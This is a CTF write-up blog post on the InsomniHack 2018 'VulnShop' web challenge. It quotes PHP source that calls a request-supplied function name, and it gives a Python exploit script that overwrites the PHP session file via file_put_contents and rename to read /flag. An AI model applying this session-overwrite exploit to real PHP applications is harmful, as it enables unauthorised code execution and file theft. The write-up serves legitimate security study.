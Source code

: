 ```yaml
---
layout: post
title:  "InsomniHack 2018 Web Challenge"
image: ''
date:   2018-01-21 00:06:31
tags:
- Web Security, CTF, Insomnihack, RCE, Session overwrite
description: 'InsomniHack CTF Web Challenge writeup'
categories:
- Web, CTF, PHP-RCE
---
```



This year's Insomni'Hack had pretty much decent challenges even though it took some time before my team could solve. The first challenge being, `VulnShop`. A pretty straightforward description with a few functionalities in the page along with the source code made it neat and clean.

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/firstpage"}}" alt="">
</figure>


Going through the source code, two particular function caught my attention: `captcha` and `captcha-verify`.

{% highlight php %}
case 'contactus':
  echo "<p>You can't contact us for the moment, but it will be available later.</p>";
  $\_SESSION['challenge'] = rand(100000,999999);
  break;
case 'captcha':
  if(isset($\_SESSION['challenge'])) echo $\_SESSION['challenge'];
  // Will make an image later
    touch($\_SESSION['challenge']);
    break;
case 'captcha-verify':
// verification functions take a file for later, when we'll provide more way of verification
  function verifyFromString($file, $response) {
  if($\_SESSION['challenge'] === $response) return true;
  else return false;
 }  
{% endhighlight %}

The `$_SESSION['challenge']` does something very interesting which is basically creating a file after calling the `contactus` page
which basically stores a random number between the specified value and in return requesting for `captcha` creates a file with the same generated number.

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/filecreation"}}" alt="">
</figure>


Let that be pretty much and let's move ahead in the source code. The very next piece of code,

{% highlight php %}
if(isset($\_REQUEST['answer']) && isset($\_REQUEST['method']) && function_exists($\_REQUEST['method'])){
    $\_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
}
{% endhighlight %}

we can see how the request is made, mainly two parameters as `GET` request.

The next part is the main aim of getting the flag. So according to the description and what we understood from the source code, what we can do is, we will make it into 3 steps:
1) Create a file by calling `contactus` and `captcha`
2) Write whatever we want to the file, say `123456`
3) Copy the contents of that particular file to the session variable
4) Execute it

Also there were a few function which were disabled that could be seen in `phpinfo`:

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/disabled_func"}}" alt="">
</figure>


The script below does all in one go:

{% highlight python %}
#Author gkrishna
#Member of Teambi0s
#insomnihack_teaser 2018
import sys
import requests

url = "http://vulnshop.teaser.insomnihack.ch/"
s = requests.Session()

s.get(url+"?page=contactus")
s.get(url+"?page=captcha")
r = s.get(url+'?page=captcha-verify&method=file_put_contents&answer=challenge|s:35:"print_r(file_get_contents(\'/flag\'))";')
s.cookies.get_dict()['PHPSESSID']
val = "Value of Cookie = " + s.cookies.get_dict()['PHPSESSID']

s.get(url+"?page=captcha-verify&method=rename&answer=/var/lib/php/sessions/sess_"+s.cookies.get_dict()['PHPSESSID'])
r = s.get(url+"?page=captcha-verify&method=verifyFromMath&answer=1")

print r.text
{% endhighlight %}

Towards the end, we call the function `verifyFromMath` which returns the desired string.

Catch me in <a href="https://twitter.com/gkgkrishna33">Twitter</a>.
